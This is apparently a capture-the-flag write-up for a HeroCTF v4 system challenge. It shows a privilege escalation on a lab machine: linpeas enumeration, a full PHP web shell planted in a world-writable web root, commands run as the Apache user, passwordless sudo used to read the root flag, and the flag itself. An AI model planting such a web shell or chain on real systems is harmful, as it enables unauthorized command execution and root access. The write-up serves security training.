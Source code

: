 # HeroCTF v4

## System

### Undercover#2

**Difficulty:** Medium

**Statement:** Now that you proved yourself, You have to assess the security of one of their developpers systems. He's a very good coder, but not that good at keeping his system safe. Could you report to us any vulnerabilities you find in his system?

The base credentials are: `user1:password123`

***

Once connected, I start by searching for a local vulnerability with **linpeas** :

```
# user1@1e2ce5f20fec:/tmp$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh && chmod +x linpeas.sh
# user1@1e2ce5f20fec:/tmp$ ./linpeas.sh
```

Through this, I notice several points:
- The apache2 service is running with the dev user
```
root           1  0.0  0.0  18388  3080 ?        Ss   10:56   0:00 /bin/bash /root/start.sh
root           7  0.0  0.0   4640   876 ?        S    10:56   0:00 /bin/sh /usr/sbin/apachectl -D FOREGROUND
root          11  0.0  0.1 327136 21108 ?        S    10:56   0:00  _ /usr/sbin/apache2 -D FOREGROUND
dev           12  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           13  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           14  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           15  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
dev           16  0.0  0.0 331536 11056 ?        S    10:56   0:00      _ /usr/sbin/apache2 -D FOREGROUND
root          10  0.0  0.0  72312  5776 ?        S    10:56   0:00 /usr/sbin/sshd -D
user1         28  0.0  0.0 103864  3480 ?        S    10:57   0:00      _ sshd: user1@pts/0
user1         29  0.0  0.0  20368  3952 pts/0    Ss   10:57   0:00          _ -bash
user1         41  1.2  0.0   5480  2700 pts/0    S+   11:00   0:00              _ /bin/sh ./linpeas.sh
user1       2838  0.0  0.0   5480   968 pts/0    S+   11:00   0:00                  _ /bin/sh ./linpeas.sh
user1       2841  0.0  0.0  36164  3340 pts/0    R+   11:00   0:00                  |   _ ps fauxwww
user1       2842  0.0  0.0   5480   968 pts/0    S+   11:00   0:00                  _ /bin/sh ./linpeas.sh
```
- The /var/www/html directory is read/write for everyone
```
drwxrwxrwx 1 root root 4096 Apr  8 10:48 /var/www/html
```

So I decide to create a `shell.php` in `/var/www/html/` file with the following content in order to execute commands through the **cmd** parameter with the rights of the dev user :

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

I check that the commands are executed with the user dev :

```
# user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=id
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
uid=1000(dev) gid=1000(dev) groups=1000(dev)
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

I check if the dev user has any authorized commands via sudo :

```
# user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=sudo%20-l
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
Matching Defaults entries for dev on 1e2ce5f20fec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev may run the following commands on 1e2ce5f20fec:
    (ALL) NOPASSWD: ALL
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

We can see the value `(ALL) NOPASSWD: ALL`, which means that we can execute all sudo commands without password.

I just have to get the flag in the root directory :

```
user1@1e2ce5f20fec:/var/www/html$ curl localhost/shell.php?cmd=sudo%20cat%20/root/flag.txt
<html>
<body>
<form method="GET" name="shell.php">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
Hero{3w-d4ta_1s_n0t_us3l3s5}</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Flag: Hero{3w-d4ta_1s_n0t_us3l3s5}
